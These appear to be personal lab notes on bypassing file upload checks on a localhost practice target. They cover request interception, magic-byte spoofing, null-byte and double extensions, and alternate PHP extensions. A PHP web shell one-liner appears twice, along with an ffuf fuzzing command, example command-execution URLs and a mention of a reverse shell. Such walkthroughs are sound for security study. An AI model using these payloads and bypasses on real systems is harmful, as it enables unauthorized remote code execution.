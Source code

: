 
check the types of file that can be uploaded

only .jpg and .png allowed

_**open network tab and see if any request going when you try to upload wrong type of file if no request in network tab then file type checking done on client side else if any requests in network tab when we try to upload wrong type of file means checking done on server side**_

_**If checking done on client side, send correct file type, intercept the request, modify the file type and data and forward it and see if it is accepted  
OR Disable JS so the check will never happen then send the file**_

here this method works as we upload png, intercept the request and change it to a php file

```php
<?php system($_GET['cmd']); ?>
```

dont forget ; 
system is a function that executes the commands $_GET gets the parameter passed inside GET request

To find where the file is uploaded to 

```sh
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://localhost/labs/FUZZ
```

to the URL add the paramete ?cmd=commandToExecute

```txt
http://localhost/labs/uploads/anubis.php/cmd=id
```

***No need to change content-type header, just change the uploaded file extension to required extension***

Can also upload reverse shell in same manner


---


### Magic Bytes


check the types of file that can be uploaded

only .jpg and .png allowed

this time it is not accepting the file if we intercept the request and change file type

we can try changing file name to

***logo.php%00.png where %00 is nullbyte and it removes anything after it***

but it dosent work here

**sometime logo.php.png also works**

**Magic bytes are the first few bytes of the file that tell what kind of file it is.**

**so get back original payload with the PNG files data and insert inside it**

```php
<?php system($_GET['cmd']); ?>
```

keep only PNG magic byte and bit of starting and traling magic bytes also change the filename to .php and try to upload

it is uploaded

can get reverse shell by uploading pentestmonkey

if some kind of file types upload are blocked google php file extensions and there are other extensions for same file types

Other extensions : php3, php4, php5, phar, phtml 


Rather having a block list of files like bloking .php, .phar, we should have an allow list
that only allows certain file extensions

---


### Lab Challenge

Server probably has a block list since not allowing even after changing magic bytes

Try different php extensions

.phtml works

Upload and navigate to localhost/labs/uploads/a.phtml?cmd=whoami


And we get code execution
